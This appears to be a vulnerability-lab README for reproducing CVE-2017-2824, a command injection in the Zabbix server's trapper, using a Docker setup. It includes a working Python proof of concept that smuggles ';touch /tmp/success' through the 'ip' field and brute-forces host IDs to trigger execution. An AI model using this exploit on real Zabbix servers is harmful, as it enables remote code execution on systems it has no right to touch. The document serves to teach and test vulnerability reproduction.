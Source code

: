 # Zabbix Server Active Proxy Trapper Command Injection (CVE-2017-2824)

[中文版本(Chinese version)](README.zh-cn.md)

Zabbix is a server monitoring software that consists of server, agent, and web modules. The web module is written in PHP and is used to display results from the database.

In the Zabbix version 2.0.x prior to 2.0.21, 2.2.x prior to 2.2.18, 2.4.x, 3.0.x prior to 3.0.9, or 3.2.x prior to 3.2.5, there is a code execution vulnerability in Zabbix's server-side trapper command functionality, where specific packets can cause command injection, leading to remote code execution. An attacker can trigger this vulnerability by initiating a request from a Zabbix proxy.

Reference:

- https://talosintelligence.com/reports/TALOS-2017-0325
- https://support.zabbix.com/browse/ZBX-12075


## Environment Setup

Execute the following command to start a complete Zabbix 3.0.3 environment, including the Web interface, Server, 1 Agent, and MySQL database:

```
docker compose up -d
```

After executing the command, run `docker compose ps` to check if all containers have started successfully. If not, try running `docker compose up -d` again.

To exploit this vulnerability, you need to enable the auto-registration feature on the server side. First, log in to the backend as an administrator using the credentials `admin/zabbix`. Go to Configuration->Actions, change the Event source to Auto registration, then click Create action and create an Action with any name:

![](1.png)

In the third tab, create an Operation with type "Add Host":

![](2.png)

Save the settings. This enables the auto-registration feature, allowing attackers to register their servers as Agents.

## Vulnerability Reproduction

Use this simple POC to reproduce the vulnerability:

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

This POC is relatively basic and may need to be executed multiple times. When you see the following result, it indicates successful command execution:

![](3.png)

Enter the server container, and you can see that `/tmp/success` has been successfully created:

![](4.png)

Interested users can improve this POC and submit a Pull Request.
